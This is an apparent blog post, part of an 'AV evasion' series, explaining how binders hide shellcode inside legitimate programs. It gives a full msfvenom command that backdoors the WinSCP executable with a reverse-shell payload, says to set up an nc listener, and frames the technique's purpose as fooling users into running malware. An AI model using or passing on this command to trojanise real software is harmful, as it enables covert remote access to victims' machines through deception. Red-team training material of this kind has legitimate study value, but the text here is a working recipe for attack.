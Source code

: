 ![](https://cdn-images-1.medium.com/max/800/1*_3Yj3-ayNifrG9fs7tiaXQ.png)

While every single binder might work slightly differently, they will basically add the code of your shellcode inside the legitimate program and have it executed somehow.

You could, for example, change the entry point in **the PE header** so that your shellcode executes right before the program and then **redirect** the execution back to the legitimate program once it is finished. This way, when the user clicks the resulting executable, your shellcode will get **silently** executed first and continue running the program normally without the user noticing it.

**Binding with msfvenom**

You can easily plant a payload of your preference in any **.exe** File with **msfvenom.** The binary will still work as usual but execute an additional payload silently. The method used by **msfvenom** injects your malicious program by **creating** an **extra thread** for it, so it is slightly different from what was mentioned before but achieves the same result. Having a separate thread is even better since your program won’t get blocked in case your shellcode fails for some reason.

For this task, will be **backdooring** the **WinSCP** executable.

> **Msfvenom –x WinSCP.exe –k –p windows/shell\_reverse\_tcp LHOST,LPORT –f exe –o WinSCP-evil.exe**

The resulting **WinSCP-evil.exe** will execute a **reverse\_tcp meterpreter** payload without the user noticing it. Before anything else, remember to set up an **nc** listener to receive the reverse shell. When you execute your **backdoored** executable, it should launch a reverse shell back at you while continuing to execute **WinSCP.exe** for the use.

**Binders and AV**

Binders won’t do much to hide your payload from an AV solution, the simple fact of joining two executables without any changes means that the resulting executable will still trigger any signature that the original payload did.

The **main** use of binders is to **fool users** into believing they are executing a legitimate executable rather than a malicious payload.

By [Moataz Osama](https://medium.com/@mezo512) on [February 3, 2025](https://medium.com/p/6244d95e8f65).

[Canonical link](https://medium.com/@mezo512/av-evasion-techniques-part-4-packing-encoding-payloads-for-evasion-6244d95e8f65)

Exported from [Medium](https://medium.com) on August 26, 2025.
